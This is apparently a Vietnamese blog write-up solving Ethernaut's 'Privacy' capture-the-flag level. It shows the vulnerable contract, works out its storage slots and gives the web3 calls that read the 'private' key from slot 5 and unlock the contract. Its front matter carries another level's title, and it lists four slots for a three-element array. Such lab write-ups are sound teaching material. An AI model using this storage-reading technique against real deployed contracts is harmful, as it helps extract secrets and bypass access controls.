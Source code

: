 ```yaml
---
title: "[Ethernaut CTF] Level 11: Elevator"
date: 2024-01-23 21:19:00 +0800
categories: [Blockchain, Ethereum]
tags: [Blockchain, Solidity, Ethereum, CTF]
published: true
image:
 path: https://ethernaut.zeppelin.solutions/imgs/BigLevel12.svg
---
```

# Level 12: Privacy
##  Difficulty: ★★★☆☆

## Given contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {

  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(block.timestamp);
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```
## Target
Tìm cách unlock contract.

## Phân tích
- Quan sát hàm unlock thì ta cần giá trị của data[2]
```solidity
function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
```
- Nhìn qua lượt các biến 
```solidity
bool public locked = true;
uint256 public ID = block.timestamp;
uint8 private flattening = 10;
uint8 private denomination = 255;
uint16 private awkwardness = uint16(block.timestamp);
bytes32[3] private data;
 
```
- Slot 0 : locked
- Slot 1: ID
- Slot 2: flattening, denomination, awkardness
- Slot 3, 4, 5, 6: lần lượt là các biến của data
=> data[2] ở slot 5
## Solution
- Lấy giá trị của data[2] ở slot 5
```javascript
str = await web3.eth.getStorageAt(instance, 5);
0x682b111ececfad832e498e84761b9326f69965c5131428c6e6a18d477ba4c52d  

```
- Vì require chỉ cần 16 byte đầu 
```javascript
key=str.slice(0,34)

```
=> Unlock contract
```javascript
await contract.unlock(key);

```
**Submit** -> Done






